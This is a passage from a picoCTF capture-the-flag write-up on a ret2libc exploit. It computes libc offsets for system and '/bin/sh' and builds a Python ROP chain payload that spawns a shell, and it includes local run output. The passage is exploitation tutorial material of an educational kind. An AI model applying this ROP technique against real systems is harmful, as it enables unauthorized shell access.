 Thus, our scanf address is offset from libc's base address by 0x7b0b0. Using the same method to find the offset of system, we run `readelf -s ./libc.so.6 | grep system`, which gives: 

```
asdiml@DESKTOP-XXXXXX:~$ readelf -s ./libc.so.6 | grep system
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

Thus, the offset of the system function from libc's base address is 0x4f4e0. With this, we can calculate the address of the system fuction. Now, we need a way to feed the string "/bin/sh". If you think about it, "/bin/sh" must exist inside libc (this can be proven by running the command `strings libc.so.6 | grep /bin/sh`). To find the offset of "/bin/sh" in libc, we simply open libc.so.6 in Ghidra and search for the string "/bin/sh". Clicking on the address, we see: 

```
        002b40fa 2f              ??         2Fh    /
        002b40fb 62              ??         62h    b
        002b40fc 69              ??         69h    i
        002b40fd 6e              ??         6Eh    n
        002b40fe 2f              ??         2Fh    /
        002b40ff 73              ??         73h    s
        002b4100 68              ??         68h    h
```

> **WARNING**
> Ghidra opens files at an offset of 0x100000, so this address is really supposed to be 0x1b40fa. This will cause issues as you will see later. 

The offset of bin_sh in libc is 0x2b40fa. Now we can create the second rop chain payload (remember, we used the first payload to return to main) as follows, to call system with the argument of "/bin/sh": 

```python
payload2 = [
    pre_payload,
    p64(pop_rdi_gadget_addr),
    p64(binsh_addr),
    p64(system_addr)
]
payload2 = b''.join(payload2)
```

Running the entire script sending both payloads, we get: 

```bash
(Linux Pwn Venv) asdiml@DESKTOP-XXXXXX:/mnt/d/CTFs/picoCTF/Pwn/Here's a LIBC$ ./attempt.py
[+] Starting local process './vuln_patched': pid 2659
[*] hex(leak)='0x7fd8d5696f30'
[*] hex(libc_base_addr)='0x7fd8d561be80'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
[*] Got EOF while reading in interactive
$
```

